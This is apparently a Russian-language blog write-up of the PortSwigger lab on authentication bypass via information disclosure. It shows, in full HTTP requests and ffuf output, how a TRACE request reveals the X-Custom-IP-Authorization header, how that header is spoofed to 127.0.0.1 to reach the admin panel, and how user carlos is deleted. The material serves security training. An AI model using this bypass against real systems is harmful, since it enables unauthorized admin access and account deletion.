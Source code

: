 ```yaml
---
title: "Authentication bypass via information disclosure"
date: 2025-07-10
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass"
classes: wide
---
```


В данной лабораторной работе можно обойти аутентификацию к личному кабинету администратора, но для этого нужно получить кастомный заголовок `HTTP` запроса через отладочные методы `HTTP`-запросов.

Для решения нужно получить доступ к личному кабинету пользователя `carlos` и удалить его аккаунт. Для входа в свою учетку можно использовать данные `wiener`:`peter`.

```
https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
```

##  Solution

Зайду в ЛК:

```http
POST /login HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=Wl0WMu2OX3zIEymsSIJfaM8GBCOPEird
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=MHHhXRJRIhF8IQ5FrMxo82QhJIgCsybx&username=wiener&password=peter
```

Пока ничего интересного не вижу. Поищу ручки с помощью [ffuf](https://cu63.github.io/tools/ffuf/):

```bash
cu63:~/ $ ffuf -u https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/FUZZ -w ~/wordlists/common.txt                                      
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /Users/cu63/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 61ms]
ADMIN                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 66ms]
Login                   [Status: 200, Size: 3185, Words: 1313, Lines: 64, Duration: 62ms]
admin                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 64ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 68ms]
filter                  [Status: 200, Size: 10743, Words: 5064, Lines: 199, Duration: 80ms]
login                   [Status: 200, Size: 3185, Words: 1313, Lines: 64, Duration: 65ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 63ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
:: Progress: [4686/4686] :: Job [1/1] :: 37 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```

Хмм... Будто бы мне на что-то намекают. Пойду смотреть этих ваших админов) Выдало ошибку:

```
Admin interface only available to local users 
```

Закину запрос в `Repeater` и попробую изменить `GET` на `OPTIONS`:

```http
HTTP/2 405 Method Not Allowed
Allow: GET, POST
Content-Type: application/json; charset=utf-8
Set-Cookie: session=46hsgkj2fGn2rQC2m7HDAU5Bj5RM1AgR; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Пока безуспешно. Может быть `TRACE`? Этот метод используется для отладки. Сервер должен нам отравить полученный пакет обратно:

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 682

TRACE /login HTTP/1.1
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate, br
referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
priority: u=0, i
te: trailers
cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
Content-Length: 0
X-Custom-IP-Authorization: 91.233.170.191
```

Вот этот параметр выглядит больно подозрительно: `X-Custom-IP-Authorization: 91.233.170.191`. Попробую заменить его на `localhost`:

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 677

TRACE /login HTTP/1.1
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate, br
referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
priority: u=0, i
te: trailers
x-custom-ip-authorization: 127.0.0.1
cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
Content-Length: 0
```

Сработало. Мое значение не перетерлось. Подставлю его в `GET`-запрос к странице админа:

```http
GET /admin HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

Получилось)

![IMG](/assets/images/PortSwigger/IMG_Authentication_bypass_via_information_disclosure/1.png){: height="200" .align-center}

Для удобства сделаю это в браузере. Для этого нажму правой кнопкой мыши на мой запрос и выберу пункт `Show response in browser`. Теперь удалю пользователя, включив проки, чтобы подставить нужное значение:

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=lxk7eSbUwQylN3FVHqgQ6Np18IyXaYvk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

Пользователь удален, а значит лаба решена.

![IMG](/assets/images/PortSwigger/IMG_Authentication_bypass_via_information_disclosure/2.png){: height="200" .align-center}